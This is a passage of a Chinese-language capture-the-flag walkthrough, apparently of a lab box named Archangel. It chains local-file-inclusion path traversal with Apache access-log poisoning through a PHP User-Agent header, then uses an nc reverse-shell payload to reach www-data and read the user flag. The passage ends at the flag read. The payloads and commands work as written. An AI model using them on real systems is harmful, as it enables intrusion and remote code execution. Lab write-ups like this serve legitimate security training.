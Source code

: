     ?view=/var/www/html/development_testing/.././.././.././.././.././.././.././../var/log/apache2/access.log

我很后悔刚刚使用gobuster扫了一下

    .......././.././.././.././../var/apache2/error.log HTTP/1.1" 200 436 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

可以看到ua，ua我们可控

## 上burp - Reverse shell

将刚刚的请求丢进repeater

修改请求头的ua：

    GET /test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././../var/log/apache2/access.log HTTP/1.1

    User-Agent: <?php phpinfo();?>

发送该包两次，我们就能成功看到phpinfo

接下来我们以此getshell

payload:

     <?php system('mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1');?>

将其写到ua上

开启nc监听，请求两次access.log

成功getshell

    ┌──(root🐦kali)-[/home/sugobet]
    └─# nc -vlnp 8888
    Ncat: Version 7.93 ( https://nmap.org/ncat )
    Ncat: Listening on :::8888
    Ncat: Listening on 0.0.0.0:8888
    Ncat: Connection from 10.10.221.93.
    Ncat: Connection from 10.10.221.93:49680.
    whoami
    www-data

升级shell

    python3 -c "import pty;pty.spawn('/bin/bash')"

user.txt:

    cd /home/archangel
    www-data@ubuntu:/home/archangel$ ls -la
    ls -la
    total 44
    drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 .
    drwxr-xr-x 3 root      root      4096 Nov 18  2020 ..
    -rw-r--r-- 1 archangel archangel  220 Nov 18  2020 .bash_logout
    -rw-r--r-- 1 archangel archangel 3771 Nov 18  2020 .bashrc
    drwx------ 2 archangel archangel 4096 Nov 18  2020 .cache
    drwxrwxr-x 3 archangel archangel 4096 Nov 18  2020 .local
    -rw-r--r-- 1 archangel archangel  807 Nov 18  2020 .profile
    -rw-rw-r-- 1 archangel archangel   66 Nov 18  2020 .selected_editor
    drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 myfiles
    drwxrwx--- 2 archangel archangel 4096 Nov 19  2020 secret
    -rw-r--r-- 1 archangel archangel   26 Nov 19  2020 user.txt
    www-data@ubuntu:/home/archangel$ cat ./user.txt

